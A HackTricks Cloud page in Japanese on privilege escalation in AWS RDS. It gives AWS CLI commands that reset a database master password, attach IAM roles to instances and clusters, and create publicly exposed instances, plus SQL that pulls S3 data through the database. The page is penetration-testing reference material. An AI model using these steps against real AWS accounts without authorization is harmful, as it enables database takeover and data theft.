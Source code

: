 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - リレーショナルデータベースサービス

RDSに関する詳細情報は以下を確認してください:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

その権限を持つ攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを行うことができます:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**接続する**ことができる必要があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内の機密情報を見つけることができます。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** を実行して **`rdsadmin`** というデータベースが見つかると、**AWS postgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスにアクセスするために使用されているかどうかを確認できます。インストールされている拡張機能を見て確認できます:
```sql
SELECT * FROM pg_extension;
```
もし**`aws_s3`**のようなものを見つけた場合、このデータベースには**S3に対する何らかのアクセス権**があると考えられます（**`aws_ml`**や**`aws_lambda`**などの他の拡張子もあります）。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、**`AssociatedRoles`**フィールドで**クラスターにIAMロールが添付されているかどうか**を確認できます。もしあれば、そのデータベースは**他のAWSサービスにアクセスするために準備されている**と考えられます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースが持つ追加のアクセス権を**推測**することができます。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS認証情報**を持っていれば、次のコマンドを使用してS3データにアクセスすることもできます:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **は S3 にアクセスするためにパラメータグループの変数を変更する必要がありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
mysql 内で **`SELECT User, Host FROM mysql.user;`** クエリを実行し、**`rdsadmin`** というユーザーが存在する場合、あなたは **AWS RDS mysql db** 内にいると考えることができます。
{% endhint %}

mysql 内で **`show variables;`** を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** などの変数に値がある場合、データベースは S3 データにアクセスする準備ができていると考えることができます。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、クラスターに **関連付けられたロール** があるかどうかを確認できます。これは通常、AWS サービスへのアクセスを意味します。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` と `iam:PassRole` の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。\
一部のDBは、Mysqlのように、パラメータグループにロールARNを指定する必要があるなど、追加の設定が必要であることに注意してください。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は**既存のクラスター内に新しいインスタンス**を作成でき、**IAMロール**が添付されている場合があります。マスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開できる可能性があります。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールを添付した新しい RDS インスタンスを作成**できます。攻撃者はその後、**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。

{% hint style="warning" %}
添付するロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）：

* プロファイルはあなたのアカウントに存在しなければなりません。
* プロファイルには、Amazon EC2 が引き受ける権限を持つ IAM ロールが必要です。
* インスタンスプロファイル名と関連する IAM ロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。

{% hint style="warning" %}
DBインスタンスはクラスターの外にある必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

{% hint style="success" %}
AWSハッキングを学び、実践する:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}

